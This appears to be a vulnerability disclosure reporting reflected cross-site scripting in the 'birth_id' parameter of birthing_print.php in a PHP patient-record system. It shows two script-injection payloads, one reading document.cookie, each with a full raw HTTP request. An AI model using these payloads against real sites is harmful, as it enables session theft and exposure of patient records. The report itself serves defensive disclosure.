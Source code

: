 # Health Center Patient Record Management System v1.0 has Cross-site scripting (reflected)

Website source address:https://www.sourcecodester.com/php/11058/health-center-patient-record-management-system.html

BUG_Author: wangte

Vulnerability File: /HCPMS/birthing_print.php

Parameter "birth_id" (GET), exists XSS vulnerability

Payload1:birth_id=1"><script>alert(1111)</script>

```
GET /HCPMS/birthing_print.php?birth_id=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![image](https://github.com/2689469248/bug_report/blob/main/pictures/xss1.png)

Payload2:birth_id=1"><script>alert(document.cookie)</script>

```
GET /HCPMS/birthing_print.php?birth_id=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close
```

![image](https://github.com/2689469248/bug_report/blob/main/pictures/xss2.png)
